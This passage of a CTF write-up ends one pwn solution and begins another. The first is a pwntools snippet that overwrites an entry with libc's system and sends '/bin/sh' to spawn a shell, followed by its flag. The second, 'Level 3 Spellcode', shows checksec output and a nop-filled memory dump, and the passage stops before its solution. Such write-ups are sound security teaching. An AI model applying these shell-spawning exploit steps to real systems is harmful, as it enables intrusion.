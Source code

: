 ```python
rename(-4, p64(libc.sym["system"]))
r.sendline("/bin/sh")
```

## Flag
```
flag{3v3ry_CTF_t34m_15_4_p4r7y}
```

# pwn - Level 3 Spellcode
> Pit your shellcoding skills against an admin! May the best spellcoder win. `nc pwn.red.csaw.io 5011` (NOTE: if you experience issues writing to offset `0` in the shellcode array, try writing to offsets `1` and later. The challenge is solvable without needing that first byte. Edit posted Wednesday morning.)

## Files
- level\_3\_spellcode

## Solution
```
$ checksec level_3_spellcode
[*] '/home/darin/ctfs/red-2020/level3/level_3_spellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This one is certainly more interesting than the previous ones. Instead of letting us input all our shellcode at once, we can only input one byte at an offset. This sounds impossible, but the program writes some code to the shellcode first.

```
   0x6020c0:    nop
   0x6020c1:    nop
   0x6020c2:    nop
   0x6020c3:    nop
   0x6020c4:    nop
   0x6020c5:    nop
   0x6020c6:    nop
   0x6020c7:    nop
   0x6020c8:    nop
   0x6020c9:    nop
   0x6020ca:    nop
   0x6020cb:    nop
   0x6020cc:    nop
   0x6020cd:    nop
   0x6020ce:    nop
   0x6020cf:    nop
   0x6020d0:    nop
   0x6020d1:    nop
   0x6020d2:    nop
   0x6020d3:    nop
   0x6020d4:    nop
   0x6020d5:    nop
   0x6020d6:    nop
   0x6020d7:    nop
   0x6020d8:    nop
   0x6020d9:    nop
   0x6020da:    nop
   0x6020db:    nop
```